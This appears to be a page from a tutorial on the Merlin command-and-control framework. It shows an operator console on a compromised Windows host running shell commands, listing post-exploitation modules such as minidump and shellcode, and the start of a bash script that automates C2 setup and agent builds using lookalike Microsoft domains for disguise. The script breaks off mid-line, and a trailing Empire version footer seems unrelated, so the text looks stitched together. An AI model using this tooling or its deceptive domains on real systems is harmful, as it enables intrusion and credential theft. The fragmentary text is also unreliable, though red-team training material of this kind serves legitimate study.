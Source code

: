 ```
Merlin[agent/694dfd]» shell whoami

[+] Command output:
desktop-abcdef\user

Merlin[agent/694dfd]» shell dir C:\Users

[+] Command output:
 Volume in drive C has no label.
 Volume Serial Number is ...
 
 Directory of C:\Users
 
 ...
```

### Running Modules

Merlin includes various modules for post-exploitation activities:

```
Merlin[agent/694dfd]» module list

[+] Available modules:
[*] windows/x64/ps
[*] windows/x64/minidump
[*] windows/x64/shellcode
...

Merlin[agent/694dfd]» module use windows/x64/ps

Merlin[module/windows/x64/ps]» run

[+] Process List:
===========================================================
  PID    | Name              | Owner                      
===========================================================
  4      | System            | NT AUTHORITY\SYSTEM       
  96     | Registry          | NT AUTHORITY\SYSTEM       
  544    | svchost.exe       | NT AUTHORITY\SYSTEM       
  ...
```

### Merlin Automation Script

This script automates setting up a Merlin server and generating agents for different platforms:

```bash
#!/bin/bash
# merlin_automation.sh - Automate Merlin C2 setup and agent generation

# Configuration
MERLIN_PATH="/opt/merlin"
OUTPUT_DIR="merlin_agents"
SERVER_IP="10.10.0.5"
SERVER_PORT="443"
DOMAINS=("updates.microsoft-defender.com" "cdn.windows-update.net")
PLATFORMS=("windows" "linux" "darwin")
ARCHS=("amd64" "386")

# Create output directory
mkdir -p "$OUTPUT_DIR"

# Build Merlin if not already built
if [ ! -f "$MERLIN_PATH/data/bin/merlinServer-linux-x64" ]; then
```

 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire